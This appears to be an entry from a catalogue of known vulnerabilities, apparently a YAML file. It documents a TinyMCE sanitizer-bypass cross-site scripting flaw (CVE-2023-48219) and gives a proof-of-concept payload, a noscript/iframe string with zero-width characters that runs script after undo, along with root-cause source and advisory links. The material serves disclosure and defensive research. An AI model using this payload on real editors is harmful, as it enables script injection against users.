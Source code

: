 ```yaml
      - twitter:kinugawamasato
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - noscript-tag
      - any-attr
      - func-call-parameter
    pocs:
      - description: The [tinymce](https://github.com/tinymce/tinymce) editor was replacing characters to `null` after the HTML sanitization. For this to work, the undo button has to be pressed.
        code: |
          <script src="https://cdnjs.cloudflare.com/ajax/libs/tinymce/6.7.2/tinymce.min.js"></script>
          <script>
            tinymce.init({
              selector: "#editor",
              plugins: "media",
              toolbar: "undo redo | bold italic | alignleft aligncenter alignright | media",
              menubar: false,
            });
          </script>

          <!-- user input -->
          <!--<noscript><[U+FEFF]/noscript><[U+FEFF]iframe onload=alert(document.domain)></noscript>-->
          <textarea id="editor">
            <noscript><﻿/noscript><﻿iframe onload=alert(document.domain)></noscript>
            <h1>Steps to reproduce</h1>
            1. Enter random text in this editor area<br/>
            2. Undo -> XSS
          </textarea>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/tinymce/tinymce/blob/403c51d35c21b1cde13ec4f3c58e0fd976e816a1/modules/tinymce/src/core/main/ts/dom/TrimBody.ts#L36-L46">https://github.com/tinymce/tinymce/blob/403c51d35c21b1cde13ec4f3c58e0fd976e816a1/modules/tinymce/src/core/main/ts/dom/TrimBody.ts#L36-L46</a>

      ```javascript
      const removeCommentsContainingZwsp = (body: HTMLElement): void => {
        const walker = createCommentWalker(body);
        let nextNode = walker.nextNode();
        while (nextNode !== null) {
          const comment = walker.currentNode as Comment;
          nextNode = walker.nextNode();
          if (Type.isString(comment.nodeValue) && comment.nodeValue.includes(Zwsp.ZWSP)) {
            Remove.remove(SugarElement.fromDom(comment));
          }
        }
      };
      ```
    links:
      - https://vulnerabledoma.in/tinymce/CVE-2023-48219.html
      - https://www.tiny.cloud/docs/tinymce/5/release-notes5109/
  ≤5.10.7&≤6.7.0:
    cve: CVE-2023-45818
    authors:
      - twitter:kinugawamasato
    tags:
      - chrome-browser
      - firefox-browser
```